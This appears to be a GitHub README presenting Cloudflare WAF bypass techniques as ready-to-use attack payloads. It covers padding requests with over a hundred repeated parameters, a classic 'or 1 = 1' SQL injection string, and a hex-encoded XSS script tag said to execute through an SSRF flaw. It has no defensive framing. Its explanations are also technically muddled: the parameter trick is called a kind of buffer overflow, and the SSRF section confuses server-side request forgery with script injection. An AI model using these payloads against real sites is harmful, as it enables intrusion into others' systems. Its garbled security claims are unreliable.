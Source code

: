 ## CloudFlare WAF Bypass w/ Nginx Exploit
a Nginx WAF vulnerability, which effects Cloudflare, is a "buffer overflow" in a sense and a "Firewall Bypass" in a sense. `&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=&a=`
CloudFlare NGINX WAF doesn't support more than 100 parameters which means that will be disregarded when checking URL requests. This can be used to bypass CloudFlare WAF and to bypass forbidden page erros from cloudflare.

## Cloudflare WAF Bypass w/ SQL Injections
`'or 1 = 1 -- -` can bypass CloudFlare's WAF and execute a succesful SQL injection. It does so by bypassing the WAF and going straight into the application. Normally, the request will go through the WAF and then to the webserver while being filtered.
Instead, this set of characters goes through the WAF as a good query and then hits the web server, causing a SQL injection.

## Cloudflare WAF Bypass w/ SSRF
Servers vulnerable to SSRF can execute internal XSS injections, internal SQL injections, expose the web server origin IP, and execute code from the attackers query. If the server executes requests from the server-side such as echo 'big', an attacker could send transform their payload into HEX, then attack the webserver.
> Example: <script>alert('xss');</script> is `\x3c\x73\x63\x72\x69\x70\x74\x3e\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29\x3b\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e` in hex.
> `example.com/send.php?q=\x3c\x73\x63\x72\x69\x70\x74\x3e\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29\x3b\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e` when an SSRF vuln is present, would alert('xss')

